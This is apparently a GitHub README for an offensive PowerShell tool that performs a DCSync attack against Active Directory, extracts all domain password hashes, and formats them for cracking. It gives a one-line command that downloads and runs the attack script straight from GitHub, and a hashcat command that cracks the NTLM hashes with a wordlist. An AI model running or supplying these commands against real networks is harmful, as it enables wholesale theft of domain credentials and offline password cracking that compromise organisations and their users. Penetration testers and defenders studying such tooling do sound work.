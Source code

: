 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-hashcat.ps1)
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
